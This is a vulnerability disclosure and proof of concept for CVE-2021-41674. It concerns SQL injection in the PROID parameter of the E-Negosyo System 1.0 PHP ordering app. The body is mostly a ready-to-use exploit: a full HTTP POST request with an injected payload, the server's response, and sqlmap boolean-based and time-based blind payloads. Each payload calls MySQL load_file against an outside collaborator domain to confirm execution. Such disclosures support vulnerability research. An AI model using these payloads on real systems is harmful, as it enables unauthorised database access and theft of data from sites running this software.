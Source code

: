 ## [CVE-2021-41674](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41674)
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41674/docs/screen.png)

[Vendor](https://www.sourcecodester.com/users/janobe)

[Software](https://www.sourcecodester.com/php/12684/young-entrepreneur-e-negosyo-system.html)

## Description:
The `PROID` parameter from  E-Negosyo System 1.0 app appears to be vulnerable to SQL injection attacks in two types of injections - time-based blind and boolean-based blind. 
The payload '+(select load_file('\\\\4x2hh1o010l184bd0ql510xgq7w0kw8nbb3yvmk.nu11secur1tycollaborator.net\\juc'))+' was submitted in the `PROID` parameter. This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. The application interacted with that domain, indicating that the injected SQL query was executed.

## MySQL request:

```mysql
POST /bsenordering/cart/controller.php?action=add HTTP/1.1
Host: 192.168.1.2
Origin: http://192.168.1.2
Cookie: PHPSESSID=n2krmhjsahctm8bpj44kms36b4
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.2/bsenordering/index.php?q=product
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 57

PROPRICE=50&PROQTY=10&PROID=201735'%2b(select%20load_file('%5c%5c%5c%5c4x2hh1o010l184bd0ql510xgq7w0kw8nbb3yvmk.nu11secur1tycollaborator.net%5c%5cjuc'))%2b'&btnorder=%C2%9E%C3%A9e
```

## MySQL response:

```mysql
HTTP/1.1 200 OK
Date: Sat, 30 Oct 2021 06:28:29 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

## Payloads

```sqlmap
---
Parameter: PROID (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: PROPRICE=50&PROQTY=10&PROID=201735'+(select load_file('\\\\4x2hh1o010l184bd0ql510xgq7w0kw8nbb3yvmk.nu11secur1tycollaborator.net\\juc'))+'' OR NOT 5430=5430#&btnorder=%C2%9E%C3%A9e

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: PROPRICE=50&PROQTY=10&PROID=201735'+(select load_file('\\\\4x2hh1o010l184bd0ql510xgq7w0kw8nbb3yvmk.nu11secur1tycollaborator.net\\juc'))+'' AND (SELECT 8860 FROM (SELECT(SLEEP(5)))cikV)-- oroY&btnorder=%C2%9E%C3%A9e
---
```

## Reproduce:

## NOTE: 

- The PoC A.K.A `CVE-SQL.py` is encrypted for security reasons!

[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-41674)

## Proof:

[href](https://streamable.com/sm0uxf)

